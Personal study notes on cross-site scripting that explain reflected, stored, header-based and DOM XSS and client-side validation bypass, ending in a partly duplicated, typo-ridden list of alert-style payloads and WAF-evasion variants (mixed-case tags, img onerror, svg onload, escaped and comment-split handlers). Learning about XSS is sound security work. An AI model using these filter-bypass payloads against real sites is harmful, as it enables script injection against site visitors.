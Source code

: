 # XSS - Cross Site Scripting



# XSS - Cross Site Scripting
### Cross-Site Scripting (XSS)
XSS is exploited when the attacker can successfully execute any type of script (for example, JavaScript) on the victim's browser. These types of flaws exist because the developer did not validate the request or correctly encoded the response of the application. JavaScript is not the only script language used for XSS but it is the most common (in fact it's my favorite); 

##### Types of XSS

- **Reflected XSS**
This flaw is exploited often when the page displays to the user something that
can be manipulated dynamically through a URLor in the body of the page.

- **Stored XSS**
The second type of attack is stored XSS. Exploiting this one will be accomplished by saving the script (JavaScript) into a stored location through a page (for example, Blogs, CMS, Forums) into some sort of a storage file (for example, database, file, and logs).
![[Pasted image 20220516161249.png]]

This flaw is dangerous because it is persisted and will execute when anyone visits the infected page later.
![[Pasted image 20220516160912.png]]

- **Exploiting stored XSS using the header**
Another interesting example that I would like to share with you is using the header to inject JavaScript into the page. Tricky right? But don't be surprised to see that the nature of web applications will allow us to manipulate the web page through the header.

- **DOM XSS**
In the first two types above, we've used the HTMLto exploit the XSS vulnerability. DOM XSS injection, however, is accomplished through the JavaScript code instead of the HTMLelements. 


- **What is a DOM (Document Object Model)?**
DOM is a W3C (World Wide Web Consortium) standard. It is a platform independent interface that allows programs and scripts to dynamically access and modify the structure of an document. The document can be HTML, XHTML or XML.
![[Pasted image 20220516163254.png]]
![[Pasted image 20220516163346.png]]
Let us apply the above definition practically:

Before modifying element using DOM: In the below figure, we have displayed an HTML element’s value using document.write function

![[Pasted image 20220516163425.png]]


- **JavaScript validation**
What if the page is protected by JavaScript validation, do you think we still can hack it? Of course we can; the JavaScript validation is not enough—we should do it on the server as well. 

![[Pasted image 20220516163515.png]]
![[Pasted image 20220516163539.png]]

==So, the partially patched code is:==
![[Pasted image 20220516163751.png]]
==So, the completely patched code is:==
![[Pasted image 20220516163904.png]]


### References:
- https://en.wikipedia.org/wiki/Document_Object_Model
- https://sucuri.net/guides/what-is-cross-site-scripting/
- https://www.acunetix.com/blog/articles/persistent-xss/
- https://medium.com/iocscan/persistent-cross-site-scripting-p-xss-557c70377554
- https://portswigger.net/web-security/cross-site-scripting/reflected
- https://www.acunetix.com/websitesecurity/detecting-blind-xss-vulnerabilities/


#### Simple payload
- `<script>alert(1)</script>`
#### Bypass WaF
- `<prompt(1)`
- `ScRiPt(1)
- `SCRIPt(1)`
#### Simple payload
- `<script>alert(1)</script>`
#### Bypass WaF
- `<prompt(1)`
- `ScRiPt(1)
- `SCRIPt(1)`
- ``<img/src/onerror=arguments[0].path.pop().alert(1)>  //to confuse the waf
- `<img src=x onerror=alert(1);>`
- ``<svg onload=alert(document.doamin) 
- ``<sVg/onfake="x=y"oNload=;1^(co\u006efirm)``^1//
- `` <script type=module>import "xss"</script>
`<input type="text" value=`` <div/autofocus/onfo<!--esi-->cus='a<!--esi-->lert("XSS")’>X</div>` 
- ``<noembed><img title="</noembed><img src onerror=alert(1)>"></noembed>
- ``<body onload='setInterval(f=_=>{for(t++,o=i=0,w=35;i<384;o+=i++%+w?(f+f+f)[i].fontcolor(g==9?"#FFF":[0,g,0]):"\n")g=0|(i/w-t/((i%w)**5%w+3)+w*t)%w;p.innerHTML=o},t=9)'bgcolor=X><pre id=p> 
- ``<pre id=p style=background:#000><svg onload='setInterval(n=>{for(o=t++,i=476;i--;o+=i%30?("0o"[c=0|(h=v=>(M=Math).hypot(i/30-8+3*M.sin(t/8/v),i%30/2-7+4*M.cos(t/9/v)))(7)*h(9)*h(6)/32]||".").fontcolor(c>2):"\n");p.innerHTML=o},t=1)'>

